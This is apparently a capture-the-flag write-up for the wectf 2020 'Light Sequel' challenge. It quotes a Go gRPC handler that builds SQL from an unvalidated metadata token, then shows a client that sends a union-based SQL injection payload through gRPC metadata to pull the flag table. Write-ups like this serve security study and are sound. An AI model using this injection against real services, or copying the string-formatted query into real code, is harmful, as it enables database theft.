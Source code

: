 ```yaml
---
title: "wectf: Light Sequel"
date: 2020-06-14T23:36:38-04:00
draft: false
toc: false
images:
tags: [sqli, golang]
---
```

This was a nice opportunity to see grpc in action.

They provided the code for the server, as well as the protobuf-based
service.

[full code here](https://github.com/shouc/wectf-2020/tree/master/light_sequel)

Looking at the code, I saw a possible sql injection vulnerability here (in the
where clause):

```go
func (s *srvServer) GetLoginHistory(ctx context.Context, _ *pb.SrvRequest) (*pb.SrvReply, error) {
  md, _ := metadata.FromIncomingContext(ctx)
  if len(md["user_token"]) == 0 {
    // no user token provided by upstream
    return &pb.SrvReply{
      Ip: nil,
		}, nil
  }
  userToken := md["user_token"][0]
  var ul []UserLogs
  err := db.Table("user_logs AS ul").
    Select("ul.ip").
    Where(fmt.Sprintf("ul.user_id = (SELECT id FROM users AS u WHERE u.token = '%s')", userToken)).
    Find(&ul)
  if err != nil {
    log.Println(err)
  }
  // convert struct to an array
  var ips []string
  for _, v := range ul {
    ips = append(ips, v.Ip)
  }
  return &pb.SrvReply{
    Ip: ips,
  }, nil
}
```

First step: implement a client to be able to call the `GetLoginHistory`. I went
through the steps of invoking the `AuthSrv` and registering, but it turns out
that wasn't actually needed--the `GetLoginHistory` is only checking the token
exists, without validation.

```go
func main() {
  conn, err := grpc.Dial("light.w-va.cf:1004", grpc.WithInsecure())
  if err != nil {
    panic(err)
  }
  defer conn.Close()
  srvc := proto.NewSrvClient(conn)
  srvreq := proto.SrvRequest{}
  srvresp, err := srvc.GetLoginHistory(context.Background(), &srvreq)
  if err != nil {
    panic(err)
  }
  fmt.Println(srvresp)
}
```

This got the Nil response. It took me a bit more effort to figure out how to pass a `user_token` into the
`md` via the `metadata.FromIncomingContext(ctx)`. And from there,
a union-based sql injection to get the flag.

```go
  srvc := proto.NewSrvClient(conn)
  md := metadata.New(map[string]string{"user_token": "')) union select flag from flags--"})
  ctx := metadata.NewOutgoingContext(context.Background(), md)
  srvreq := proto.SrvRequest{}
  srvresp, err := srvc.GetLoginHistory(ctx, &srvreq)
```

It was cool to learn about grpc and xorm as well--haven't done serious golang in
a while. Thanks wectf. :)

